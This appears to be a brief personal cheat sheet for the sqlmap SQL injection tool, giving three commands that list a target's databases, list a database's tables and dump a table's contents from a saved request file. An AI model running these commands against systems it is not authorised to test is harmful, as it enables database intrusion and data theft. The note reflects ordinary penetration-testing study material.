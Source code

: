-----------------------------------------------
# SQLMap
Tags: #Cheatsheet #Hacking #Tools 
Creation date: 2021-10-04

-----------------------------------------------

### Discover database names

```sqlmap -r <request file> --dbs```

### Show tables in database

```sqlmap -r <request file> -D <database name> --tables```

### Enum table in database

```sqlmap -r <request file> -D <database name> -T <table name> --dump```